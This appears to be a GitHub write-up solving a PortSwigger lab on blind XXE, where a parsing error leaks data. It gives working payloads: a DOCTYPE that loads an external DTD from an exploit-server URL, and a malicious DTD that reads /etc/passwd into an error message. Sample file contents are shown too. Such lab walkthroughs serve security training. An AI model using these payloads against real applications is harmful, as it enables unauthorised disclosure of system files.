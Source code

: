 # Lab-06 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b76738eb-313f-45c0-a38a-9d4c51878a6a)


## Overview :

 An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

Invoking the malicious external DTD in a request will result in an error message in the response like the following:

```bash
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Clicking on checkstock , browser sends a request as follows.

```xml
POST /product/stock HTTP/2
Host: 0af30033047260258367614100b000eb.web-security-academy.net
Cookie: session=TnnpQlYQo6aNbZz19PpZgs3EumVLAIfl
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af30033047260258367614100b000eb.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0af30033047260258367614100b000eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to trigger an error message & retreive the contents of `/etc/passwd` file in the application response, we need to perform few steps.

#### Steps -

1. Make a request which has a DOCTYPE containing a payload which will fetch the contents of the malicious DTD hosted at our exploit server. 
2. The exploit server will retreive the contents of `/etc/passwd` and it will try to send the exfiltrated data back to the **non-existent server**

> Since the server address is non existent, it will throw an error. So we get both error and the contents of /etc/passwd file in the response.


#### Craft a payload -

In the request to check the stock, we can insert the following external entity definition in between the XML declaration and the stockCheck element:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0ac1007c04b760e583b56076015d00b1.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
> NOTE - We intentionally give the name/location of the file as **non-existent** to induce an error.


When we send the request , we get the error message along with the contents of /etc/passwd.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9d72e719-b4b0-430c-9df7-daf4d3958171)

Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/523460f4-1ad3-42aa-ab1c-0d90babbb31f)


